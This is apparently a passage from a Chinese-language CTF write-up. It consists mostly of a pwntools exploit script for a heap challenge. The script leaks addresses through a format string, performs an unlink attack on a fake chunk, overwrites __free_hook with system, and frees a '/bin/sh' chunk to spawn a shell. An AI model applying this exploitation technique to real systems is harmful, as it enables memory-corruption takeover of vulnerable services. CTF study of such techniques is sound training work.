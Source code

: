 接下来就常规 unlink，覆盖 `free_hook` 为 `system`，注意维持原 `note` 数组结构。


```python
sla('name:','%11$p.%15$p')
ru(',')
heap = int(ru('.'),16)-0x1186
base = int(ru('\n'),16)-0x20830
leak('heap',heap)
leak('base',base)

note = heap+0x202060
system = base+libc.sym['system']
free_hook = base+libc.sym['__free_hook']

add(0,0x98)
add(1,0x98)
add(2,0x90)
add(3,0x90,'/bin/sh\x00')

fd = note-0x18
bk = note-0x10
fake = flat(0,0x91,fd,bk).ljust(0x90,'\x00') + p64(0x90)+'\xa0'
edit(0,fake)
free(1)

edit(0,flat(0,0,0,free_hook,0x98))
edit(0,p64(system))
free(3)
```
